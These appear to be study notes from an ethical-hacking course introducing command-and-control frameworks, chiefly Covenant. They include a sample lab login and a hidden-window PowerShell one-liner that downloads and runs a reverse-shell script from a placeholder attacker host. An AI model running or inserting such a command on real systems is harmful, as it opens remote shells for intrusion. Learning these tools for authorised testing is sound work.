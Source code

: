 # Introduction to Command and Control (C2)

- C2 is the combination of techniques and tools used by Pentesters and ethical hackers to persist and communicate in a target environment

Tools:
	
	Covenant - https://github.com/cobbr/Covenant
	
	Metasploit - https://github.com/rapid7/metasploit-framework




## Introduction to Covenant
```powershell
cd /opt/Covenant/Covenant
dotnet run

studentuser:Password123!
```

Grunts = user sessions

```powershell
# In Launchers > Host > 

# we can search For a rev shell, this will encode our command
# we send to the target windows to grab our revshell and execute it.

example command:
powershell -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/<revshell.ps1')"

# Data > Credentials = this functionality will save the credentials we found a long the way
```

|Session| Id| Value|
|0 | >0| |
| medium | local | user |
| high | local| admin|
| system 0 | domain | admin|
| system >0  | DC | system admin|



# Gaining the Foothold

	https://mayosec.github.io/MayorSecSecuritySolutions/

